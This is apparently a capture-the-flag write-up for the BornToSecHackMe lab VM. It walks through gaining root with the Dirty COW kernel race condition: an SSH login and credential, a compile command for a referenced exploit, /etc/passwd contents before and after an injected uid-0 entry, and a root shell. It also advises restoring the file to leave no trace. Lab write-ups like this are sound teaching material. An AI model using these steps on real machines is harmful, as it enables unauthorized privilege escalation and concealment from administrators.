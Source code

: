 ## 1- Getting a ssh access to the server

- Follow the strategy explained in `writeup1.md` until the point where you can log in ssh as user `laurie`. This is not totally mandatory but of course it's much easier to work from a ssh connection rather than on the VM directly where you can't even copy/paste from your host machine.

- Login to the server through SSH with `ssh laurie@192.168.56.3 -p 22` : `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

## 2- Dirty cow exploit

- Thanks to the command `uname -a` we could get info about the architecture of the server :
```
laurie@BornToSecHackMe:/tmp$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

- We can notice that the kernel version 3.2.0 is pretty old and subject to some security breaches, one of the most famous being the dirty cow exploit.

- This exploit creates a race condition between system calls `write` and `madvise` that basically allow a user to write in files which are normally readable only. More info there: https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/demo.html

- On a GNU/linux system, the root user is defined by its user ID of 0, and the list of users with their user ID is accessible in the read only file `/etc/passwd`. Here's the original content of this file:

```
laurie@BornToSecHackMe:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
whoopsie:x:103:107::/nonexistent:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:110:118::/var/spool/postfix:/bin/false

```
- We can clearly see the root user with its user ID of 0 on top of the list.

- So the idea is to use this dirtycow exploit to modify that file and make it so one of the users, for instance zaz, gets a user ID of 0 and is considered root by the system.

- We found online a little c program that does just that, by using thread in loops in order to provoke the data race situation needed to overwrite the read only file `/etc/passwd` (see `dirty.c` in `scripts` folder, compile with `gcc -pthread dirty.c -o dirty -lcrypt`)

- After running this program, if everything went well (which it doesn't systematically do, sometimes it doesn't write its line properly to `/etc/passwd`), our zaz user now has a user ID of 0 and will therefore be considered root by the system, giving it all privileges. Here's the updated version of `/etc/passwd` :
```
laurie@BornToSecHackMe:~$ cat /etc/passwd
zaz:firwVQs3fu3rM:0:0:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
whoopsie:x:103:107::/nonexistent:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:110:118::/var/spool/postfix:/bin/false
```
- So now we can log in as zaz (with our new password : toto) to get full root access to the machine. Of course, in a real attack situation, it would be important to restore the old `/etc/passwd` to leave no trace. 
```
laurie@BornToSecHackMe:~$ su zaz
Password: 
zaz@BornToSecHackMe:/home/laurie# cd /root
zaz@BornToSecHackMe:/root# ls
README
zaz@BornToSecHackMe:/root# cat README 
CONGRATULATIONS !!!!
To be continued...
zaz@BornToSecHackMe:/root# id
uid=0(zaz) gid=0(root) groups=0(root)
```